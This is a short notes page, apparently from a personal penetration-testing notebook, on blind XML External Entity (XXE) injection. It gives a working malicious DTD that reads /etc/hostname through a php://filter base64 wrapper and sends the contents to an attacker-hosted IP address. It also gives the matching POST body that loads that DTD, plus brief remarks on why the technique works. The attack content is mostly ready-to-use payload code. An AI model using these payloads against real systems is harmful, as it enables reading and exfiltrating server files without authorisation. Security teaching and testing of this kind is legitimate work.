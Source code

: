 # XML External Entities Injection (XXE)

## **Blind XXE**

{% embed url="https://medium.com/@onehackman/exploiting-xml-external-entity-xxe-injections-b0e3eac388f9" %}
\

{% endembed %}

Example exploit.dtd:

```
<!ENTITY % payload SYSTEM "php://filter/read=convert.base64-encode/resource=file:///etc/hostname">
<!ENTITY % remote
"<!ENTITY &#37; send SYSTEM 'http://192.168.6.1/%payload;'>">
%remote;
%send;

```

Corresponding POST request payload:

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE load SYSTEM "http://192.168.6.1/exploit.dtd">
<root><email>asd</email><password>asd</password></root>
```

Where exploit.dtd is a file that is hosted on my computer, on IP address 192.168.6.1.

The reason I’m hosting the file is because parameter entity references aren’t allowed in the payload.

PHP doesn’t allow newlines in an URL, which is why I had to use the php:// to base64 encode the payload.
